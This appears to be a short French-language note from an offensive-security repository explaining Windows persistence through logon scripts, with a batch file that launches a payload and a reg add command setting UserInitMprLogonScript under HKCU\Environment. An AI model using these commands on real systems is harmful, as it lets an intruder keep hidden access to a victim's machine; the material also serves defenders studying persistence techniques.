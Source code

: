 # Logon Scripts

Quand un utilisateur se connecte, il y'a un processe qui s'appele `UserInit` qui fait un tas de chose pour l'utilisateur et l'un d'eux lance le `Logon Scripts` et c'est une fonctionnalite que nous pouvons utiliser.

Contenu de `logon.bat` qui contient le chemin absolut vers le payload

```sh
@ECHO OFF
C:\pers\payload.exe
```

```sh
reg add "HKEY_CURRENT_USER\Environment" /v UserInitMprLogonScript /d "c:\pers\logon.bat" /t REG_SZ /f
```

